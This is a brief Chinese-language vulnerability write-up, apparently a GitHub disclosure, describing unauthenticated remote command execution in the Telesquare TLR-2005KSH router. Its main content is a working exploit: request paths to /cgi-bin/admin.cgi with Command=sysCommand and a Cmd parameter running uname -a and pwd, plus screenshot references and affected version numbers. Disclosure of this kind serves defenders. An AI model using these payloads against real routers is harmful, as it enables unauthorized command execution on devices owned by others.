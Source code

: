 # Telesquare TLR-2005KSH 路由器存在未授权的远程命令执行漏洞

## 漏洞详细信息：

访问易受攻击的设备输入以下Payload，攻击者可以利用此漏洞通过Cmd参数在未授权的情况下执行系统命令



/cgi-bin/admin.cgi?Command=sysCommand&Cmd=uname%20-a

![image-20241213164321769](C:\Users\zzcun\AppData\Roaming\Typora\typora-user-images\image-20241213164321769.png)

/cgi-bin/admin.cgi?Command=sysCommand&Cmd=pwd

![image-20241213164436747](C:\Users\zzcun\AppData\Roaming\Typora\typora-user-images\image-20241213164436747.png)

此漏洞影响已知产品版本：2.6.36 及更高的版本